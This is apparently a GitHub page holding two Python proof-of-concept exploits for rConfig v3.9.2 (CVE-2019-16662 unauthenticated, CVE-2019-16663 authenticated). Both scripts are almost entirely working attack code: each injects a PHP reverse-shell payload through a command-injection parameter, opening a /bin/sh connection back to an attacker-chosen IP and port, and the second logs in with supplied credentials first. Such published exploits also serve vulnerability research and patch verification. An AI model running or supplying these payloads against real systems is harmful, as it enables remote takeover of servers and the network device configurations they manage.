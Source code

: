 POC1
----

    #!/usr/bin/python

    # Exploit Title: rConfig v3.9.2 unauthenticated Remote Code Execution
    # Date: 18/09/2019
    # Exploit Author: Askar (@mohammadaskar2)
    # CVE : CVE-2019-16662
    # Vendor Homepage: https://rconfig.com/
    # Software link: https://rconfig.com/download
    # Version: v3.9.2
    # Tested on: CentOS 7.7 / PHP 7.2.22

    import requests
    import sys
    from urllib import quote
    from requests.packages.urllib3.exceptions import InsecureRequestWarning
    requests.packages.urllib3.disable_warnings(InsecureRequestWarning)

    if len(sys.argv) != 4:
        print "[+] Usage : ./exploit.py target ip port"
        exit()

    target = sys.argv[1]

    ip = sys.argv[2]

    port = sys.argv[3]

    payload = quote(''';php -r '$sock=fsockopen("{0}",{1});exec("/bin/sh -i <&3 >&3 2>&3");'#'''.format(ip, port))

    install_path = target + "/install"

    req = requests.get(install_path, verify=False)
    if req.status_code == 404:
        print "[-] Installation directory not found!"
        print "[-] Exploitation failed !"
        exit()
    elif req.status_code == 200:
        print "[+] Installation directory found!"
    url_to_send = target + "/install/lib/ajaxHandlers/ajaxServerSettingsChk.php?rootUname=" + payload

    print "[+] Triggering the payload"
    print "[+] Check your listener !"

    requests.get(url_to_send, verify=False)

POC2
----

    #!/usr/bin/python

    # Exploit Title: rConfig v3.9.2 Authenticated Remote Code Execution
    # Date: 18/09/2019
    # Exploit Author: Askar (@mohammadaskar2)
    # CVE : CVE-2019-16663
    # Vendor Homepage: https://rconfig.com/
    # Software link: https://rconfig.com/download
    # Version: v3.9.2
    # Tested on: CentOS 7.7 / PHP 7.2.22


    import requests
    import sys
    from urllib import quote
    from requests.packages.urllib3.exceptions import InsecureRequestWarning


    requests.packages.urllib3.disable_warnings(InsecureRequestWarning)

    if len(sys.argv) != 6:
        print "[+] Usage : ./exploit.py target username password ip port"
        exit()

    target = sys.argv[1]

    username = sys.argv[2]

    password = sys.argv[3]

    ip = sys.argv[4]

    port = sys.argv[5]

    request = requests.session()

    login_info = {
        "user": username,
        "pass": password,
        "sublogin": 1
    }

    login_request = request.post(
        target+"/lib/crud/userprocess.php",
         login_info,
         verify=False,
         allow_redirects=True
     )

    dashboard_request = request.get(target+"/dashboard.php", allow_redirects=False)


    if dashboard_request.status_code == 200:
        print "[+] LoggedIn successfully"
        payload = '''""&&php -r '$sock=fsockopen("{0}",{1});exec("/bin/sh -i <&3 >&3 2>&3");'#'''.format(ip, port)
        encoded_request = target+"/lib/crud/search.crud.php?searchTerm=anything&catCommand={0}".format(quote(payload))
        print "[+] triggering the payload"
        print "[+] Check your listener !"
        exploit_req = request.get(encoded_request)

    elif dashboard_request.status_code == 302:
        print "[-] Wrong credentials !"
        exit()